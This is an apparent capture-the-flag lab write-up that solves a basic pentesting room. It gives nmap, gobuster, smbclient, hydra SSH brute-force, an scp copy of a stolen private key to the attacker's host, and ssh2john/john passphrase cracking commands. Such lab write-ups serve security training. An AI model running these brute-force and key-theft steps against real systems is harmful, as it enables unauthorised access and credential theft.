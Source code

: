 # Basic Pentesting Writeup

The topics of this room are: 
- service enumeration
- brute forcing
- hash cracking 
- Linux enumeration

## Question 2: *find the services exposed by the machine*

We'll be able to get these informations using a **nmap** scan, running the following command to save the output on *initial* directory. 

``nmap -sV -sC -oA nmap/initial 10.10.164.153`` 

The output: 
<code>

    # Nmap 7.92 scan initiated Wed Apr 20 09:27:34 2022 as: nmap -sV -sC -oA nmap/initial 10.10.164.153
    Nmap scan report for 10.10.164.153
    Host is up (0.076s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT    STATE SERVICE     VERSION
    22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
    |_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled but not required
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-time: 
    |   date: 2022-04-20T13:27:52
    |_  start_date: N/A
    | smb-os-discovery: 
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: basic2
    |   NetBIOS computer name: BASIC2\x00
    |   Domain name: \x00
    |   FQDN: basic2
    |_  System time: 2022-04-20T09:27:51-04:00

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Apr 20 09:27:56 2022 -- 1 IP address (1 host up) scanned in 22.13 seconds

</code>

## Question 3: *What is the name of the hidden directory on the web server (enter name without/)?*

To retrieve these informations we can use **gobuster** with *dir* option:

``gobuster dir -w /home/kali/SecLists-master/Discovery/Web-Content/common.txt -u http://10.10.164.153 -o gobusterCommonRoot.txt``

As a result you will see that there is a page (with status code 301), and this is `/development`. You can visit it.

## Question 4-5-6-7: *Use brute-forcing to find the username & password* 

To find a username to establish a ssh connection to the remote machine, I'll try to connect to the `smb` service (we know that SMB is used from the previous *nmap* scanning). 

First we are going to list the shared folders: 

``smbclient -L \\\\10.10.164.53\\``

As a result, we'll obtain that the unique shared folder that we can access is *Anonymous*. 

We'll get the access to *Anonymous* using **smbclient**:

``smbclient -N //10.10.164.53/Anonymous``

Now, we have access to smb shell. Using `dir` command inside it, we'll observe a file *staff.txt*. We'll copy it to our local machine as follow: 

``get staff.txt``

And so, let's cat the content of this file:

![staff](/staff.png "staff.txt")

The answer to question 5 is: *Jan*. 

To bruteforce the password, we are going to use **hydra** tool: 

``hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.164.53 ``

As you can see, we are bruteforcing the password for a ssh connection, because from the previous nmap scan we've seen that port 22 is open. 

At this point, we can login into the system using the password retrieved: 

``ssh jan@10.10.164.53``

## Question 8: *What is the name of the other user you found(all lower case)?*

Navigating on remote machine's file system, we can see the ``/home/kay`` folder. So, *kay* is the other user. 

## Question 9: *What is the final password you obtain?*

This is a little privilege escalation task. 
In /home/kay we can see a file: *pass.bak*, but jay doesn't have access to it. So we have to log into machine as *kay*. 

Using ``ls -la`` command in /home/kay, we can see the hidden directory *.ssh*. Now, we can copy *id_rsa* file to our local machine, to get the RSA key and then connect using ssh. 

<code>

    scp id_rsa kali@<your-ip>:/home/kali/<your_directory>

    ssh -i id_rsa kay@<victim-ip>

</code>

Unfortunately, connection is protected by a passphrase. We have to bruteforce it, using **johnTheRipper*. 
First of all, from kay ssh private key, we have to get hash: 

``python3 /usr/share/john/ssh2john.py id_rsa > idrsajohn.txt`` 

Now, we are able to crack it: 

``john --wordlist=/usr/share/wordlists/rockyou.txt idrsajohn.txt``

After that, we can connect again using ssh and the newly obtained passphrase, to cat *pass.bak* file and complete the room. 







